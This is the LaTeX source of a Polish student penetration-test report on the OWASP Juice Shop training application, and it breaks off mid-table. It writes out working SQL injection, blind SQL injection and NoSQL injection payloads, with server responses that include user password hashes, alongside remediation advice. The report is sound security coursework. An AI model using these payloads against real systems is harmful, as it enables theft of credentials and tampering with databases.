\documentclass[journal,onecolumn]{IEEEtran}
%https://www.overleaf.com/latex/templates/one-column-ieee-journal-article/ykctxqgxptrs
\usepackage[table,xcdraw]{xcolor}
\usepackage[T1]{fontenc} %polskie litery
\usepackage{float} %pozycjonowanie tabelek
\usepackage{tcolorbox} %zalecenia
\renewcommand{\figurename}{Rysunek} %https://tex.stackexchange.com/questions/17489/change-caption-name-of-figures

\usepackage{listings}
\lstset{
basicstyle=\small\ttfamily,
columns=flexible,
breaklines=true
} %autowrap wklejania kodu
\usepackage[hidelinks]{hyperref} %linki

\usepackage{titlesec}
\renewcommand{\thesubsubsection}{\roman{subsubsection}} %https://stackoverflow.com/questions/42747684/changing-thesection-latex-locally
\titleformat{\section}
  {\normalfont\Huge\bfseries}{}{0em}{\centering}
\titleformat{\subsection}
  {\normalfont\Huge\bfseries}{}{0em}{}
  
\titleformat{\subsubsection}
  {\normalfont\Large\bfseries}{}{0em}{}[{\vspace{-0.5em}\rule{\linewidth}{0.2mm}}]

\titlespacing*{\section}{0pt}{1em}{1em}
\titlespacing*{\subsection}{0pt}{1em}{1em}
\titlespacing*{\subsubsection}{0pt}{1em}{1em}

\renewcommand{\tablename}{Tabela}

\usepackage[font=normal,labelfont=bf]{caption}


\title{Raport bezpieczeństwa dostarczonej wersji aplikacji Juice Shop}

\author{Filip Horst 311257}% <-this % stops a space
\begin{document}


\markboth{Bezpieczeństwo aplikacji internetowych i mobilnych 2025L Politechnika Warszawska}%
{}

\maketitle

%\begin{abstract}
%The abstract goes here.
%\end{abstract}

%\begin{IEEEkeywords}
%IEEE, IEEEtran, journal, \LaTeX, paper, template.
%\end{IEEEkeywords}

\IEEEpeerreviewmaketitle

\section{Podsumowanie prac}
Sekcja zawiera krótkie podsumowanie znalezionych podatności.
\subsection{Klasyfikacja podatności}
Ryzyko związane z podatnościami zostało wyznaczone na podstawie powagi konsekwencji ich nadużycia oraz trudności wykorzystania ich do ataku. Wyznaczone zostało 5 klas:
\begin{itemize}
    \item \colorbox{red!80}{WYSOKIE} - zawiera najpoważniejsze podatności pozwalające na ataki, które naruszają bezpieczeństwo użytkowników i/lub sprawność aplikacji. Ich obecność oznacza, że działanie aplikacji powinno zostać niezwłocznie wstrzymane w celu poprawy zabezpieczeń
    \item \colorbox{orange!80}{ŚREDNIE} - zawiera podatności, które mają poważne, ale nie krytyczne skutki lub pozwalają na szybkie i łatwe zakłócenie pracy aplikacji. Nie wymagają one wyłączania aplikacji, ale powinny zostać dopisane na listę zadań o wysokim priorytecie
    \item \colorbox{yellow!80}{NISKIE} - pozostałe podatności, czyli te których skutki nie są zbyt poważne lub szansa na ich wykonanie bez dodatkowej wiedzy o systemie jest praktycznie niemożliwe
    \item \colorbox{green!80}{BEZPIECZNE} - dodatkowa kategoria przedstawiające podatności, które były badane ale nie udało się udowodnić, że istnieją i można je wykorzystać. Ta klasa została dodana ze względu na wymagania kursu i służy do przedstawienia wszystkich wykonanych badań. Z powodu, że takie podatności były badane znacznie szerzej opisy zawarte w tej klasie są luźniejsze i bardziej opisowe (w stylu sprawozdania, nie do końca raportu)
    \item \colorbox{cyan}{INFORMACYJNE} - zawiera dodatkowe zalecenia i propozycje poprawek
\end{itemize}
Podział klas ze względu na prawdopodobieństwo wykonania ataku i powagi jego konsekwencji został zaprezentowany w formie wizualnej na rysunku \ref{img:tab}. 

\begin{figure}[H]
\caption{Tabela prezentująca podział klas ryzyka podatności ze względu na oceny prawdopodobieństwo nadużycia i powagi potencjalnych skutków}
\label{img:tab}
\centering

\includegraphics[width=0.9\textwidth]{img/tab.png}
\end{figure}

W trakcie analizy raportu należy pamiętać, że zarówno definicja klas, jak i sama ocena prawdopodobieństwa i powagi podatności jest \textbf{subiektywna}!

\subsection{Znalezione podatności}
Liczba znalezionych niedoskonałości ze względu na przypisaną im klasę ryzyka została przedstawiona na rysunku \ref{img:stat}.

\begin{figure}[H]
\caption{Rozkład znalezionych podatności według ich klasyfikacji}
\label{img:stat}
\centering

\includegraphics[width=\textwidth]{img/bars.png}
\end{figure}

Można zaobserwować, że występują liczne zagrożenia o wysokim i średnim ryzyku, dlatego w celu poprawy bezpieczeństwa \newline\huge\color{red}{\textbf{działanie aplikacji powinno zostać jak najszybciej wstrzymane}} \normalsize\normalcolor

W tabeli \ref{tab:podsumowanie} zawarto podsumowanie przeprowadzonych badań. Każda podatność posiada swój kod, skrócony opis słowny oraz przypisane klasy ryzyka, prawdopodobieństwa i wpływu na bezpieczeństwo wraz z krótkim uzasadnieniem podjętej decyzji.

%\Huge
%\centering
%\resizebox{1.05\columnwidth}{!}{%

% Please add the following required packages to your document preamble:
% \usepackage[table,xcdraw]{xcolor}
% Beamer presentation requires \usepackage{colortbl} instead of \usepackage[table,xcdraw]{xcolor}
\begin{table}[H]
\caption{Tabela podsumowująca podatności i ryzyka z nimi związane}
\label{tab:podsumowanie}

\Huge
\centering
\resizebox{1.05\columnwidth}{!}{%
\begin{tabular}{|l|l|c|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textit{Kod podatności}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textit{Nazwa}}                                                             & \textit{Klasa ryzyka}                                                                        & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textit{\begin{tabular}[c]{@{}c@{}}Prawdopodobieństwo\\ wykonania\end{tabular}}}                                                                                        & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textit{\begin{tabular}[c]{@{}c@{}}Wpływ na \\ bezpieczeństwo\end{tabular}}}                           \\ \hline
PT01-DICT                                                             & Atak słownikowy                                                                                                         & \cellcolor[HTML]{FE0000}{\color[HTML]{000000} \textbf{WYSOKIE}}                              & \begin{tabular}[c]{@{}l@{}}ŚREDNIE (brak jakichkolwiek \\ zabezpieczeń, atak jest trywialny w \\ wykonaniu i oczywisty, z drugiej strony \\ użytkownicy często dbają sami o siebie \\ długimi hasłami)\end{tabular} & \begin{tabular}[c]{@{}l@{}}WYSOKI (pełen dostęp do \\ zaatakowanego konta)\end{tabular}                                                            \\ \hline
PT02-SQL-INJ                                                          & \begin{tabular}[c]{@{}l@{}}Wydobycie haseł użytk.\\ z użyciem klasycznego \\ SQL Injection\end{tabular}                 & \cellcolor[HTML]{FE0000}{\color[HTML]{333333} \textbf{WYSOKIE}}                              & \begin{tabular}[c]{@{}l@{}}WYSOKIE (jeden z bardziej oczywistych\\ łatwych ataków, brak zabezpieczeń)\end{tabular}                                                                                                  & \begin{tabular}[c]{@{}l@{}}WYSOKI (dostęp do całej \\ bazy danych, w tym haseł \\ w postaci przestarzałego hasha\\ md5)\end{tabular}               \\ \hline
\begin{tabular}[c]{@{}l@{}}PT03-BLD-SQL\\ -INJ\end{tabular}           & \begin{tabular}[c]{@{}l@{}}Wydobycie hasha hasła \\ wybranego użytkownika \\ z użyciem Blind SQL Injection\end{tabular} & \cellcolor[HTML]{FE0000}\textbf{WYSOKIE}                                                     & \begin{tabular}[c]{@{}l@{}}ŚREDNIE (mało popularny atak, opiera się o\\ użycie podatności PT02, która jest znacznie\\ bardziej wartościowa)\end{tabular}                                                            & \begin{tabular}[c]{@{}l@{}}WYSOKI (dostęp do niskiej \\ jakości hasha hasła użytkownika)\end{tabular}                                              \\ \hline
\begin{tabular}[c]{@{}l@{}}PT04-NO-SQL\\ -INJ\end{tabular}            & \begin{tabular}[c]{@{}l@{}}Masowa modyfikacja opinii \\ z użyciem NoSQL Injection\end{tabular}                          & \cellcolor[HTML]{FFC702}\textbf{ŚREDNIE}                                                     & \begin{tabular}[c]{@{}l@{}}NISKIE (atakujący musi wiedzieć o użyciu\\ bazy NoSQL)\end{tabular}                                                                                                                      & \begin{tabular}[c]{@{}l@{}}WYSOKI (możliwość modyfikacji \\ wszystkich danych w tabeli równoznaczne\\ z jej zniszczeniem)\end{tabular}             \\ \hline
PT05-RFL-XSS                                                          & \begin{tabular}[c]{@{}l@{}}Kradzież ciasteczek z użyciem\\ Reflected XSS\end{tabular}                                   & \cellcolor[HTML]{FFC702}\textbf{ŚREDNIE}                                                     & \begin{tabular}[c]{@{}l@{}}NISKIE (użytkownik musi kliknąć \\ w podejrzany link od atakującego)\end{tabular}                                                                                                        & \begin{tabular}[c]{@{}l@{}}WYSOKI (uzyskanie pełnego dostępu do\\ konta ofiary)\end{tabular}                                                       \\ \hline
PT06-CSP                                                              & \begin{tabular}[c]{@{}l@{}}Wymuszenie zmiany \\ polityki CSP\end{tabular}                                               & \cellcolor[HTML]{FCFF2F}\textbf{NISKIE}                                                      & \begin{tabular}[c]{@{}l@{}}NISKIE (wymaga żetonu pozwalającego\\ na zmianę awatara użytkownika,\\ awatar występuje tylko na\\ stronie profilu)\end{tabular}                                                         & \begin{tabular}[c]{@{}l@{}}NISKIE (sam w sobie nic nie robi, ale\\ pozwala na potencjalne wykonanie XSS \\ na użytkowniku)\end{tabular}            \\ \hline
PT07-XSS                                                              & Prosty atak Stored XSS                                                                                                  & \cellcolor[HTML]{34FF34}\textbf{BEZPIECZNE}                                                  & \begin{tabular}[c]{@{}l@{}}BRAK (sanityzacja nie pozwoliła na \\ wykonanie XSS metodą bezpośrednią)\end{tabular}                                                                                                    & -                                                                                                                                                  \\ \hline
PT08-SQL-XSS                                                          & \begin{tabular}[c]{@{}l@{}}Atak Stored XSS wspierany \\ przez SQL Injection\end{tabular}                                & \cellcolor[HTML]{34FF34}\textbf{BEZPIECZNE}                                                  & \begin{tabular}[c]{@{}l@{}}BRAK (mimo braku sanityzacji \\ nie udało się dodać nowych \\ danych do bazy SQL)\end{tabular}                                                                                           & -                                                                                                                                                  \\ \hline
PT09-RCE-XSS                                                          & \begin{tabular}[c]{@{}l@{}}Atak Stored XSS wspierany \\ przez RCE\end{tabular}                                          & \cellcolor[HTML]{FFC702}\textbf{ŚREDNIE}                                                     & \begin{tabular}[c]{@{}l@{}}NISKIE (atakujący musi posiadać dostęp do \\ zmiany pseudonimu użytkownika oraz wykonać\\ skuteczny atak PT06-CSP)\end{tabular}                                                          & \begin{tabular}[c]{@{}l@{}}ŚREDNI (pozwala wykonać \\ dowolny atak XSS tylko na \\ wybranego użytkownika)\end{tabular}                             \\ \hline
PT10-RCE                                                              & \begin{tabular}[c]{@{}l@{}}Kradzież danych z serwera\\ z użyciem RCE na szablonie\end{tabular}                          & \cellcolor[HTML]{FE0000}\textbf{WYSOKIE}                                                     & \begin{tabular}[c]{@{}l@{}}WYSOKIE (bardzo prosty atak, choć wymaga\\ wiedzy o użytej do generacji stron bibliotece)\end{tabular}                                                                                   & \begin{tabular}[c]{@{}l@{}}WYSOKI (pełen dostęp do \\ wnętrza kontenera)\end{tabular}                                                              \\ \hline
\begin{tabular}[c]{@{}l@{}}PT11-NOSQL\\ -RCE\end{tabular}             & \begin{tabular}[c]{@{}l@{}}Atak RCE z użyciem bazy \\ NoSQL\end{tabular}                                                & \cellcolor[HTML]{FCFF2F}\textbf{NISKIE}                                                      & \begin{tabular}[c]{@{}l@{}}ŚREDNIE (prosty atak, ale wymaga wiedzy o\\ użyciu bazy NoSQL)\end{tabular}                                                                                                              & \begin{tabular}[c]{@{}l@{}}NISKI (ograniczony kontekst zapytań nie\\ pozwala na zbyt wiele, jednym z zastosowań\\ może być atak SSRF)\end{tabular} \\ \hline
PT12-PTH-TRV                                                          & Atak Path Traversal                                                                                                     & \cellcolor[HTML]{34FF34}\textbf{BEZPIECZNE}                                                  & \begin{tabular}[c]{@{}l@{}}BRAK (końcówka ftp nigdy nie zwróciła pliku\\ spoza dozwolonego katalogu)\end{tabular}                                                                                                   & -                                                                                                                                                  \\ \hline
PT13-NL-BT                                                            & Atak Null Byte Poisoning                                                                                                & \cellcolor[HTML]{F8FF00}\textbf{NISKIE}                                                      & \begin{tabular}[c]{@{}l@{}}NISKIE (wymaga wiedzy o ukrytej\\ końcówce oraz potrzebie podwójnego\\ zakodowania null byte'a)\end{tabular}                                                                             & \begin{tabular}[c]{@{}l@{}}NISKI (dostęp do plików \\ serwowanych na końcówce)\end{tabular}                                                        \\ \hline
\begin{tabular}[c]{@{}l@{}}PT14-NL-BT\\ -PTH-TRV\end{tabular}         & \begin{tabular}[c]{@{}l@{}}Atak Path Traversal z \\ użyciemNull Byte Poisoning\end{tabular}                             & \cellcolor[HTML]{38FFF8}\textbf{\begin{tabular}[c]{@{}c@{}}BEZPIECZNE\\ / INFO\end{tabular}} & \begin{tabular}[c]{@{}l@{}}NISKIE (wymaga wiedzy o ukrytej\\ końcówce oraz potrzebie podwójnego\\ zakodowania null byte'a)\end{tabular}                                                                             & \begin{tabular}[c]{@{}l@{}}BRAK (ale zwracane błędy sugerują, że \\ przetwarzanie może nie być w pełni\\ bezpieczne)\end{tabular}                  \\ \hline
PT15-UN-AC                                                            & \begin{tabular}[c]{@{}l@{}}Nieautoryzowany dostęp \\ do danych\end{tabular}                                             & \cellcolor[HTML]{FFC702}\textbf{ŚREDNIE}                                                     & \begin{tabular}[c]{@{}l@{}}ŚREDNIE (łatwe w wykonaniu, ale używa \\ nieoczywistej końcówki)\end{tabular}                                                                                                            & \begin{tabular}[c]{@{}l@{}}ŚREDNI (podglądanie koszyka to \\ naruszenie prywatności, ale nie \\ bezpieczeństwa)\end{tabular}                       \\ \hline
PT16-SSRF                                                             & Atak Server Side Request Forgery                                                                                        & \cellcolor[HTML]{FFCB2F}\textbf{ŚREDNIE}                                                     & WYSOKIE (banalne wykonanie)                                                                                                                                                                                         & \begin{tabular}[c]{@{}l@{}}ŚREDNI (możliwość rekonesansu \\ sieci wewnętrznej lub użycia \\ sklepu jako pośrednika)\end{tabular}                   \\ \hline
PT17-CSRF                                                             & Atak Cross-Site Request Forgery                                                                                         & \cellcolor[HTML]{FFCB2F}\textbf{ŚREDNIE}                                                     & \begin{tabular}[c]{@{}l@{}}NISKIE (nowoczesne przeglądarki \\ pomagają z tego typu atakami mimo \\ braku zabezpieczeń w aplikacji)\end{tabular}                                                                     & \begin{tabular}[c]{@{}l@{}}WYSOKI (możliwość wykonania \\ dowolnej akcji w imieniu użytkownika)\end{tabular}                                       \\ \hline
PT18-JWT-NONE                                                         & \begin{tabular}[c]{@{}l@{}}Użycie niepodpisanego \\ żetona JWT\end{tabular}                                             & \cellcolor[HTML]{34FF34}\textbf{BEZPIECZNE}                                                  & \begin{tabular}[c]{@{}l@{}}BRAK (tak zmodyfikowane żetony \\ są automatycznie odrzucane)\end{tabular}                                                                                                               & -                                                                                                                                                  \\ \hline
PT19-JWT-HS                                                           & \begin{tabular}[c]{@{}l@{}}Użycie żetona JWT z innym \\ algorytmem podpisu\end{tabular}                                 & \cellcolor[HTML]{34FF34}\textbf{BEZPIECZNE}                                                  & \begin{tabular}[c]{@{}l@{}}BRAK (zmodyfikowany żeton jest blokowany \\ przez wszystkie sprawdzone końcówki)\end{tabular}                                                                                            & -                                                                                                                                                  \\ \hline
PT20-FAIL                                                             & \begin{tabular}[c]{@{}l@{}}Awaria serwera powodowana\\ uczciwymi akcjami\end{tabular}                                   & \cellcolor[HTML]{FE0000}\textbf{WYSOKIE}                                                     & \begin{tabular}[c]{@{}l@{}}WYSOKIE (wywoływane przez przypadek \\ podczas korzystania z podstawowych \\ funkcji aplikacji)\end{tabular}                                                                             & \begin{tabular}[c]{@{}l@{}}WYSOKI (doprowadza do awarii \\ serwera oraz wyczyszczenia baz danych)\end{tabular}                                     \\ \hline
\end{tabular}
}
\end{table}
\section{Szczegółowy opis podatności}
Zawiera szczegółowe informacje o wszystkich zbadanych podatnościach wraz ze szczegółami technicznymi oraz zalecanymi poprawami aplikacji.


% An example of a floating table. Note that, for IEEE style tables, the
% \caption command should come BEFORE the table and, given that table
% captions serve much like titles, are usually capitalized except for words
% such as a, an, and, as, at, but, by, for, in, nor, of, on, or, the, to
% and up, which are usually not capitalized unless they are the first or
% last word of the caption. Table text will default to \footnotesize as
% the IEEE normally uses this smaller font for tables.
% The \label must come after \caption as always.
%
%\begin{table}[!t]
% increase table row spacing, adjust to taste
%\renewcommand{\arraystretch}{1.3}
% if using array.sty, it might be a good idea to tweak the value of
%\extrarowheight as needed to properly center the text within the cells
%\caption{An Example of a Table}
%\label{table_example}
%\centering
%% Some packages, such as MDW tools, offer better commands for making tables
%% than the plain LaTeX2e tabular which is used here.
%\begin{tabular}{|c||c|}
%\hline
%One & Two\\
%\hline
%Three & Four\\
%\hline
%\end{tabular}
%\end{table}


% Note that the IEEE does not put floats in the very first column
% - or typically anywhere on the first page for that matter. Also,
% in-text middle ("here") positioning is typically not used, but it
% is allowed and encouraged for Computer Society conferences (but
% not Computer Society journals). Most IEEE journals/conferences use
% top floats exclusively. 
% Note that, LaTeX2e, unlike IEEE journals/conferences, places
% footnotes above bottom floats. This can be corrected via the
% \fnbelowfloat command of the stfloats package.

\section{Atak bruteforce}

Atak odbył się przy pomocy prostego skryptu sprawdzającego, czy kolejne hasła z listy 1050 popularnych dają dostęp do wybranego konta.
\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
GET    & 
/rest/user/login  & -   & -   & \begin{tabular}[c]{@{}l@{}}\{'email':admin@juice-sh.op, 'password':admin123\}\end{tabular} &  \begin{tabular}[c]{@{}l@{}}w tym przykładzie kod 200, bo hasło poprawne \\ w pozostałych kod 401 z błędem \end{tabular} \\ \hline
\end{tabular}
\end{table}

Łamanie hasła tą metodą w wybranym uruchomieniu zajęło 116 prób w  9.05~s, co daje ~0.078s na próbę - znacznie szybciej niż mógłby to wykonać człowiek, czyli aplikacja jest podatna na bruteforce.


{\rule{\linewidth}{0.2mm}}
\begin{center}
    \textcolor{red}{APLIKACJA PODATNA NA BRUTEFORCE LOGIN}
\end{center} 
\section{Ataki SQL Injection}

\subsection{\colorbox{red!80}{\parbox{\textwidth}{PT02-SQL-INJ: Wydobycie haseł użytkowników z użyciem klasycznego SQL Injection}}}
\subsubsection{Opis}
Atak miał na celu wykorzystanie SQL Injection do wydobycia haseł użytkowników z bazy danych sklepu. Celem ataku była końcówka \lstinline[]|/rest/products| z parametrem q, przez który jest przekazywana wyszukiwana fraza. Jak udało się ustalić, odpowiednie przygotowanie frazy pozwala na odczyt bazy danych SQL.

\subsubsection{Warunki niezbędne do wykorzystania podatności}
\textbf{Brak}. Wykonanie ataku nie wymaga logowania. Przydatna jest jednak wiedza na temat struktury/wersji bazy pochodząca z rekonesansu.
\subsubsection{Szczegóły wykonania}
Schemat ogólny wysyłanych żądań został zawarty w tabeli.
\begin{table}[H]
    \begin{tabular}{|l|l|l|l|l|l|}
    \hline
    \rowcolor[HTML]{EFEFEF} 
    \multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
    GET                                                          & \begin{lstlisting}
/rest/products/?q=apple')) 
union select 1,2,3,4,5,6,7,8,
group_concat(tbl_name) from 
sqlite_master where type='table' 
and tbl_name not like 'sqlite_%'--
    \end{lstlisting}                                        & -                                  & -                 & - & 200 \
    \begin{lstlisting}
{"status":"success","data":
[{"id":1,"name":2,
"description":3,"price":4,
"deluxePrice":5,"image":6,
"createdAt":7,"updatedAt":8,
"deletedAt":"Users,Addresses...
    \end{lstlisting}                                \\ \hline
    \end{tabular}
    \end{table}

Główną zmienną jest tutaj parametr Query String o nazwie q, który dla tej końcówki pozwala na dostęp do bazy danych.

Atak został podzielony na trzy etapy:
\begin{itemize}
    \item Zdobycie informacji o bazie
    \begin{itemize}
        \item Parametr/zapytanie
        
        \begin{lstlisting}
?q=apple')) union select 1,2,3,4,5,6,7,8,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%'--
        \end{lstlisting}

        \item Odpowiedź serwera
        
        \begin{lstlisting}
['Users', 'Addresses', 'Baskets', 'Products', 'BasketItems', 'Captchas', 'Cardsedbacks', 'ImageCaptchas', 'Memories', 'PrivacyRequests', 'Quantities', 'Recyclllets']
        \end{lstlisting}    
    \end{itemize}

    Odpowiedź zawiera listę tabel niesystemowych, dzięki czemu wiadomo jak nazywa się tabela zawierająca potencjalnie wartościowe dane. Ten atak wykorzystuje już wcześniej znaną informację o wersji bazy aplikacji. Bez takiej wiedzy należało by to zbadać stosując np. charakterystyczne funkcje różnych implementacji baz danych
    
    
    
    
    \item Zdobycie informacji o tabeli
    
    \begin{itemize}
        \item Parametr/zapytanie
        
        \begin{lstlisting}
?q=apple')) union select 1,2,3,4,5,6,7,8,group_concat(sql) from sqlite_master where type='table' and tbl_name like 'Users%'--
        \end{lstlisting}

        \item Odpowiedź serwera
        
        \begin{lstlisting}
CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHA `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` 55) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/imag5) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, IME)
        \end{lstlisting}    
    \end{itemize}
    
    Odpowiedź zwraca kod SQL tworzący tabelę, z którego łatwo wywnioskować jakie kolumny zawiera

    \item Pobranie danych użytkowników
    
    \begin{itemize}
        \item Parametr/zapytanie
        
        \begin{lstlisting}
?q=apple')) union select 1,2,3,4,5,6,group_concat(username),group_concat(email),group_concat(password) from users;--
        \end{lstlisting}

        \item Odpowiedź serwera
        
        \begin{lstlisting}
[('', 'admin@juice-sh.op', 
'240be518fabd2724ddb6f04eeb1da5967448d7e831c08c8fa822809f74c720a9'),
('', 'jim@juice-sh.op',
'c534541702f7e186e3520e8e929c1b9c19b3afc7be14adc5491a64a7563e963c'),...
        \end{lstlisting}    
    \end{itemize}

    Proste wykonanie ataku z wykorzystaniem wydobytej wcześniej wiedzy pozwala na pobranie hashy haseł użytkowników w celu wykonania szybszych, ukrytych ataków lokalnych
    

\end{itemize}

\subsubsection{Skutki}
Wykorzystanie podatności pozwala na \textbf{pobranie hashy haseł wszystkich użytkowników sklepu}.

\subsubsection{Zalecenia}

Rozwiązaniem tego problemu jest upewnienie się, że przy każdym zapytaniu do bazy danych jego treść jest odpowiednio sanityzowana. Jednym z najlepszych podejść jest tutaj wykorzystanie mechanizmu parameter binding. Warto też skorzystać z biblioteki, w której zapytanie z sanityzacją jest tą domyślną opcją, którą trzeba ręcznie wyłączyć w razie potrzeby.

Przykład naprawy w pliku login.ts
\begin{lstlisting}
models.sequelize.query(`SELECT * FROM Users WHERE email = $mail AND password = $pass AND deletedAt IS NULL`, { 
    model: UserModel, 
    bind: {mail: req.body.email, pass: security.hash(req.body.password)},
    plain: true 
    })
.then((authenticatedUser) => [...]
\end{lstlisting}
Przedstawiony kod zawiera już poprawę - parametr bind. Przed nią zapytanie było składane jako zwykła suma ciągów tekstowych.

W tym miejscu warto również zarekomendować zmianę algorytmu hashowania na nowocześniejsze i bezpieczniejsze Argon2, czy Bcrypt. Dodatkowe użycie soli i ewentualnie pieprzu dodatkowo zminimalizowało by skutki udanego ataku jak ten przedstawiony w tej sekcji.


\subsection{\colorbox{orange!80}{\parbox{\textwidth}{PT03-BLD-SQL-INJ: Wydobycie hasha hasła wybranego użytkownika z użyciem Blind SQL Injection}}}
\subsubsection{Opis}
Celem ataku był endpoint służący do logowania. Wykorzystywanym bitem informacji było zalogowanie, bądź jego brak w zależności od dodatkowego warunku wstawionego w pole email. Warunek ten sprawdzał, czy znak na danej pozycji hasha hasła jest równy np. "2". Jeśli to była prawda dochodziło do zalogowania, natomiast w przeciwnym wypadku zwracany był błąd 401 Invalid email or password. 

Atak został przeprowadzony z użyciem prostego skryptu, który iteracyjnie sprawdzał kolejne znaki na kolejnych pozycjach, aż do uzyskania pełnego hasha.
\subsubsection{Warunki niezbędne do wykorzystania podatności}
Wykonanie ataku nie wymaga logowania. Atak wykorzystuje podatność SQL Injection pozwalającą na dodanie funkcji substr do żądania. Atakujący musi posiadać adres e-mail konta, którego hash chce wydobyć.
\subsubsection{Szczegóły wykonania}
W tabeli zawarty został przykład sprawdzający, czy pierwszy znak (odpowiada za to drugi argument funkcji substr) hasha jest równy "2".

\begin{table}[H]
    \begin{tabular}{|l|l|l|l|l|l|}
    \hline
    \rowcolor[HTML]{EFEFEF} 
    \multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
    POST                                                          & /rest/user/login                                        & -                                  & -                 & \begin{tabular}[c]{@{}l@{}}\{\\ "email":"admin@juice-sh.op' \\ and substr(password,1,1)='2'  -- ", \\ "password":""\\ \}\end{tabular} & 
    \begin{tabular}[c]{@{}l@{}}200 + TOKEN 
    \end{tabular}
        
    \\ \hline
    \end{tabular}
    \end{table}

Przykład zakończył się logowaniem, czyli skrypt zapisywał znak "2" jako poprawny i przechodził do kolejnej pozycji, aż do napotkania pozycji dla której żaden znak z listy nie był właściwy (czyli hash się skończył).
\subsubsection{Skutki}
Wykonanie skryptu pozwoliło na \textbf{pobranie wartości hasha hasła administratora} (admin@juice-sh.op): 

240be518fabd2724ddb6f04eeb1da5967448d7e831c08c8fa822809f74c720a9

\subsubsection{Zalecenia} 
Problemem tutaj jest przede wszystkim sama możliwość wykonania SQL Injection, która umożliwia dostęp do hasha hasła. Po naprawieniu tej podatności, jeśli atak Blind SQL Injection wciąż byłby możliwy to należało by rozważyć:
\begin{itemize}
    \item dodanie losowych małych opóźnień w celu ukrycia czasu przetwarzania
    \item poprawę mechanizmu informowania o błędach. Użytkownik nie musi wiedzieć dokładnie co poszło nie tak - szczególnie jeśli nie zależy to od dostarczanych przez niego danych. Czasami lepiej odpowiedzieć "Spróbuj ponownie później", a szczegóły dla programistów zapisać w specjalnych logach
\end{itemize}
\subsection{Masowa modyfikacja opinii (NoSQL Injection)}

Atak polegał na modyfikacji wszystkich opinii zawartych w bazie danych sklepu jednym zapytaniem. W tym celu wykorzystany został endpoint /rest/products/reviews, który współpracuje z bazą NoSQL (jest to wcześniej posiada wiedza - bez niej należało by testować endpointy charakterystycznymi funkcjami nosql (np. \$eq, \$neq) w danych lub zdobyć tę wiedzę w inny sposób). Z powodu braku zabezpieczeń pole id mogło zostać zamienione na wyszukanie wszystkich opini, których id nie jest równe pustemu ciągowi znaków (czyli wszystkich). W przeciwieństwie do funkcji polubienia, aktualizacja działa na wiele dokumentów jednocześnie, co ułatwia atak. 

\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
PATCH                                                          & /rest/products/reviews                                          & \begin{tabular}[c]{@{}l@{}}Authentication: \\ Bearer TOKEN\end{tabular}                                  & \begin{tabular}[c]{@{}l@{}}token: \\ TOKEN\end{tabular}                                           & \begin{tabular}[c]{@{}l@{}}\{\\ "id":\{"\$ne":" "\}, \\ "message":"I am silly"\\ \}\end{tabular} & 200 
\begin{lstlisting}
{"modified":30,"original":
